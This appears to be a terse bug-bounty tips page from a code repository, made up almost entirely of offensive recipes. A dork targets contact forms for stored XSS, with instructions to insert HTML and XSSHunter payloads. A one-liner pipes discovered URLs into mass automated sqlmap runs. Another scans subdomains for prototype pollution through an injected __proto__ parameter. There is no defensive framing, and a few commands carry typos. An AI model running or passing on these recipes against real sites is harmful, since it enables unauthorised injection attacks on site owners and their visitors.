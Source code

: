 # Tips 

------
### Easy Stored XSS & HTML Injection 

* Payload
```
site:target.com inurl:"contact" | inurl:"contact-us" | inurl:"contactus" | inurl:"contcat_us" | inurl:"contact_form" | inurl:"contact-form" 

```
* Fill the form with an HTML Payload in the First Name and with your XSSHunter Payload in Message and send the form

* Wait for a message in your mail with executed Html Payload or your XSSHunter alert for Stored XSS 

----

```
httpx -l targets.txt -silent -threads 1000 | xargs -I@ sh -c 'findomain -t @ -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1'
```

```
subfinder -d http://target.com | httpx -silent | sed 's/$/\/?__proto__[testparam]=exploit\//' | page-fetch -j 'window.testparam=="exploit"?"[VULN]":"[NOT]"' | sed "s/(//g"|sed"s/)//g" | sed "s/JS//g" | grep "VULN"
```
